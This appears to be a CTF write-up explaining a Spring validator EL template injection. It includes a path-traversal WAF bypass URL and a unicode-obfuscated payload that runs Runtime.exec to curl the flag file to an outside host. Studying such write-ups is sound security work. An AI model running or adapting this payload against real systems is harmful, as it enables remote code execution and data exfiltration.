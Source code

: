 ```
@RequestMapping({"/api/internal"})
public class InternalController extends BaseController {
  private static final Logger log = LoggerFactory.getLogger(me.line.ctf.controller.InternalController.class);
  
  @PostMapping({"/"})
  public String index(@ValidateName @RequestBody RequestDto name) {
    log.info("{} is here !", name);
    return "Welcome " + name.getName() + "!";
  }
}
```
```
public boolean isValid(String value, ConstraintValidatorContext context) {
    if (StringUtils.isEmpty(value) || PATTERN.matcher(value).matches())
      return true; 
    context.buildConstraintViolationWithTemplate(
        String.format("%s", new Object[] { value })).addConstraintViolation();
    return false;
  }
```
+ /api/internalWhen the validator for the Name parameter operates in the internalController that is executed when accessing the path, EL Template injection occurs using context.buildConstraintViolationWithTemplate.

+ In order to access that path, you need to bypass the WAF that exists in gw, which ;can be bypassed using 
`http://35.200.117.55:20080/api/external/..;/internal;/`
+ Since there is no sandbox in the template engine, commnd can be executed using the java.lang.Runtime class.
`{"name":"${''.getClass().forName('java.lang.Runtim\u0065').getM\u0065thods()[6].invok\u0065(''.getClass().forName('java.lang.Runtim\u0065')).\u0065xec('curl https://enllwt2ugqrt.x.pipedream.net/ -F=@/FLAG')}"}`
